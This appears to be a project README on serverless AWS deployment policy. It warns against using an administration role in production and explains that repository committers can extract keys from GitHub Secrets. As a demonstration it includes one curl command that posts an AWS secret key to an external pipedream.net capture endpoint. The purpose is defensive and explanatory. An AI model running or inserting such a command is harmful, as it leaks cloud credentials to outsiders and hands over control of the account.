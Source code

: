 # Serverless Deployment Policy
Sadly, the serverless documentation does not clearly mention that the **“Administration Role” should never be used in production environments**. 
Using this role can cause significant security risks. If someone gains access to these keys, 
they may be able to create a new user with access to the web console and take full control of your AWS account.

Please create pull requests if you come across new permissions such as for AWS Kinesis.

## GitHub Secrets Note
Storing keys directly in GitHub Secrets without additional security controls can lead to unauthorized access. 
Any user with commit privileges could potentially use GitHub Actions to extract these keys:

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

With this in mind, also avoid using the “Administration Role” for all AWS accounts and only store the keys 
in GitHub Secrets when using the GitHub Environment with the “Protected Branch” configuration.
